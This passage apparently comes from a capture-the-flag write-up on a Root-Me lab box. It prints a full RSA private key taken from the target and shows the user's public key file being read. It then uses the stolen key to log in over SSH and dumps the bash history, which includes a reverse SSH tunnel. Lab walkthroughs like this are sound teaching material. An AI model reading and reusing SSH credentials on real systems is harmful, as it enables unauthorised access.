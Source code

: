 MIIEpAIBAAKCAQEA5sm/rHHoCaTtncp7DCSIJlWnUg9eyfpJ3czIn18U1lv5ZQf0
9yGaDxafualdpXCNMo32mVQb9XQ7c2N7sdSdAjsgSjV0YG/IZGZNRyFS58YJQRdZ
5wRu6eKAlQVss/Lq3zwuBsT8Om/1/cKpVgB3ukPtKA97M5iSxL1VWWXg6GVoJ6f6
zIio/DZMFCxOU9Wyl7i8ssEoBxQlmgZh9pnYYhwo7Rf3RXBJeHDpuc1g+vol2vRN
ALXqIBlItS08MhoTaS0SK+pD98OU34M745U5Mo4TgFjYc+eD7xewyduWuS5IuFPd
xfcHkt0cQ7he0AYHuk5ooCI4ca3B0xcSZILWqwIDAQABAoIBAHNnIMxXLQNdkGAd
tsfMoLQikodrHif7WuJpG0zuG5pQ5XWKtAi7qbCvzHDnaudmT4SfDld/gneLhord
jSXQPi62aCATeL0cSGVD7pKJ7E3vbgM5bQAi7F9RnqBl1QRqjN3R1uYVrFaAU85v
f4N8umHOw5ELpLyZJ5LvZfVNB1jNIRpxINhAP+/kVslsZ93qyssljokKFMy/uOIH
r+SV3b3Zfogvg67AJ/g08jtCjYdbr7egPP2TYPMRz5fbTWCrc5m4EBvf5h5pP/w6
Go12YacY2lbF5wzbFUjIdNyF7RZHFDbSB0bM9aCDmXTfywlFswYdb7HyIZrstQ9W
BzWhIYkCgYEA/tUe/rhUcEYEXkhddkXWARcX0t9YNb8apY7WyVibiSyzh33mscRG
MLZoJJri5QMvNdYkNGr5zSGEo270Q2CzduKCbhVjXIybIbmggAc/80gZ5E8FDgJ7
szUKJL37BxXbAAYFIZkzXvc76Ve+vZvLfKMTbQqXTgKkQpGyRHLVOz8CgYEA59ht
YicNlz2yM26mpGqQNLGtEC1RmyZbPn03yJRTBJG5/sOlMw0RI+cMEiqyo7MKHmMZ
+Z7VKVtk8xEQbUy6EAeeSri/Fh1xiKRtlwwQSU1q2ooPOmdHyUp+rhseoPaDAJgy
3KJYbkQMzHVt6KhsWVTEnrz0VtxiTzRu7p2Y5ZUCgYEAt5X2RG+rdU8b6oibvI9H
Q3XNlf+NXvsUSV2EY33QX5yyodQUFNFf98wRbv2epHoM0u45GwJOgHe7RLq0gq3x
3J4GdSQ3dv9c64j9lf6jFbNF4/MBozwqvcpiSmILrOkT4wpzO+dQ2QOoR80M/zB0
ApDBd/b/VhYVHFg2Y5WPBKUCgYBn47SIMgXGCtBqeZ/UtyetZRyuzg/uXQ6v/r5b
dBOLTZ2xyouhR66xjtv63AU2k4jqOvAtyf2szZZ70N6yi5ooirFkvEpsJ39zgnLV
J4O4xScnjIvsWNFzIp2HeQGNkUj8oDbSZTEJIBc4GzrH8Yizsud0VimLLrAi29UF
ubsEzQKBgQDpWaD5rTcaWueiH2DwI7kbdgyf6yfpunsRNsnq0GqZ2wSaUyKt9b1j
bj9Dp+VxrUt584v//7z9Skkde2akJbA/qiF8/oOvzaiNRAOfpLCiqoL0vJ5dIvcg
aXwuOk5Dt0/xQWPAKHL6HYyzQjnad/VAmn6tnxko1A/S8ELiG+MUtg==
-----END RSA PRIVATE KEY-----

> cat /home/mauk/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDmyb+scegJpO2dynsMJIgmVadSD17J+kndzMifXxTWW/llB/T3IZoPFp+5qV2lcI0yjfaZV
Bv1dDtzY3ux1J0COyBKNXRgb8hkZk1HIVLnxglBF1nnBG7p4oCVBWyz8urfPC4GxPw6b/X9wqlWAHe6Q+0oD3szmJLEvVVZZeDoZWgnp/rMiK
j8NkwULE5T1bKXuLyywSgHFCWaBmH2mdhiHCjtF/dFcEl4cOm5zWD6+iXa9E0AteogGUi1LTwyGhNpLRIr6kP3w5TfgzvjlTkyjhOAWNhz54P
vF7DJ25a5Lki4U93F9weS3RxDuF7QBge6TmigIjhxrcHTFxJkgtar mauk@Relativity
{% endhighlight %}

We even have access to the private ssh key, and we now that the current ssh user (mauk) is registered in the `authorized_keys`, so [we can use the private key to connect without password]( https://support.rackspace.com/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/):

{% highlight bash %}
ssh -i private.key mauk@ctf06.root-me.org
{% endhighlight %}

Nothing could be found in the user directory, but we have access to the history:

{% highlight bash %}
1  ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
2  su -
3  exit
4  su -
{% endhighlight %}

